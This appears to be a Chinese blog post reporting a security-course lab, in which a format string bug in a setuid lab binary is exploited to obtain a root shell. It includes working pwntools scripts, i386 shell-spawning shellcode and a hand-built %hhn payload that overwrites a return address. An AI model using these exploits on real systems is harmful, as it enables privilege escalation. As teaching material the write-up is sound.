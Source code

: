 ```yaml
---
layout:     post   				    
title:      【安全攻防综合实验7】格式化字符串		
subtitle:   
date:       2021-10-27 				
author:     慕念 						
header-img: img/attack.jpg 	
catalog: true 						
tags:								
    - 安全攻防综合实验
---
```


## 【实验目的】

- 本实验所用虚拟机上有一个具有格式化字符串漏洞的可执行程序`fmt_str`，具有’s’属性。 
- 要求在linux上编程，并利用相关调试工具，编写出一个利用该漏洞程序的工具（exploit），获得带有root权限的shell。



## 【实验步骤】

### 一、基础题

#### 1、找到格式化字符串的漏洞。

![image-20211025204519021](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031944624.png)

了解到`fmtstr_payload`是`pwntools`中的工具，可以用来简化对格式化字符串漏洞的构造工作，所以攻击思路也是利用该函数写exp。

> `fmtstr_payload(offset, writes, numbwritten=0, write_size='byte')`
> 第一个参数表示格式化字符串的偏移；
> 第二个参数表示需要利用`%n`写入的数据，采用字典形式。比如说：要将`printf@GOT`改为`system`函数地址，可以写成{`printf@GOT`: `systemAddress`}；
> 第三个参数表示已经输出的字符个数，默认为0；
> 第四个参数表示写入方式，是按字节（byte）、按双字节（short）还是按四字节（int），对应着`hhn`、`hn`和`n`，默认值是byte。
> `fmtstr_payload()`函数返回的就是payload

#### 2、确定偏移。

写脚本通过循环暴力求偏移，即每次增加一个`%p`，然后用正则化表达式去匹配定位字符串是否出现，以此来求得offset。

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')

def exec_fmt(pad):
    p = process(['./fmt_str', pad])
    return p.recv()

fmt = FmtStr(exec_fmt)
print("offset ===> ", fmt.offset)
```

![image-20211025161112761](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945826.png)

找到输入字符串到栈顶指针的偏移为4，由此确定了`fmtstr_payload()`的第一个参数为4。

#### 3、确定shellcode的地址和ret的地址。

由于`text[]`的地址会随着输入字符的数量发生变化，但是这时候还不知道shellcode和ret的地址，先随便写个地址看回显的Address of text。

其中构造payload的时候，要注意把`fmtstr_payload(4, {0x12345678: 0x12345678})`放在前面，如果把shellcode放在前面会影响对地址的写。

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')

# 20bytes

shellcode = b"\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
payload = fmtstr_payload(4, {0x12345678: 0x12345678}) + shellcode

p = process(["./fmt_str", payload])
p.recv()
p.interactive()
```

![image-20211025205212399](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945298.png)

目前已经知道了`text[]`的地址，还需要知道ret的地址相较`text[]`的偏移，可以通过gdb查看：

![image-20211025210028814](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945352.png)

![image-20211025210146381](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945553.png)

可以看到ret的地址相较`text[]`的偏移是`0xffffd0fc-0xffffccf0=0x40c`

然后再写脚本，通过coredump确定shellcode的地址：

![image-20211025210805838](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945491.png)

所以shellcode的地址相较`text[]`的偏移是`0xffffd28c-0xffffd250=0x3c`

#### 4、根据获得的信息写exp脚本。

##### ①使用`fmtstr_payload()`

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')

# 20bytes

shellcode = b"\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
# Address of text:0xffffd250

text_addr = 0xffffd250
shell_addr = text_addr + 0x3c
ret_addr = text_addr + 0x40c
payload = fmtstr_payload(4, {ret_addr: shell_addr}) + shellcode

p = process(["./fmt_str", payload])
p.recv()
p.interactive()
```

运行截图：

![image-20211025203410795](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945618.png)



##### ②自己构造payload

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')

# 20bytes

shellcode = b"\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
# Address of text:0xffffd250

text_addr = 0xffffd250
shell_addr = text_addr + 0x3c  # 0xffffd28c

ret_addr = text_addr + 0x40c  # 0xffffd65c


# 要把0xffffd65c替换成0xffffd28c：

# 因为\x8c\xd2\xff\xff地址本身就是从小到大，所以地址也是按照\x5c……\x5d……\x5e……\x5f……排序

# 为了方便凑数字，把地址放在后面（地址放的位置无所谓，只要偏移计算正确就可以）

# 140=0x8c

# 140+70=0xd2

# 0xd2+45=0xff

# 0xff+0=0xff

# %15$hhn是因为输入的偏移是4，因为之后还有%140x、%70x、%45、a、a、a和四个地址（aaa用于4字节地址对齐），所以前面的偏移变成了4+10=14，所以是%15$hhn

# 采用精准的%hhn，一次仅写入一个字节，不会影响相邻数据（不用绕卷法）


fmtstr = b"%140x%15$hhn%70x%16$hhn%45x%17$hhn%18$hhnaaa\x5c\xd6\xff\xff\x5d\xd6\xff\xff\x5e\xd6\xff\xff\x5f\xd6\xff\xff"
payload = fmtstr+shellcode

p = process(["./fmt_str", payload])
p.recv()
p.interactive()
```

运行截图：

![image-20211027105926065](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031945652.png)



### 二、一些思考

`printf()`是学c的时候最开始接触到的函数，但是存在很大的漏洞，经过恶意构造后轻则使得程序崩溃，只要输入一串 `%s `，当遇到数字对应的内容不存在，或者保护地址时，就会使得程序崩溃；重则可泄露任意地址的内存和覆盖任意地址内存。所以在用到`printf()`等一系列格式化字符串的函数时，都要注意指定转换指示符，比如`%d`，`%c`等。

（在自己构造payload的时候，构造这么一长串还是很痛苦的，`fmtstr_payload()`真香。）

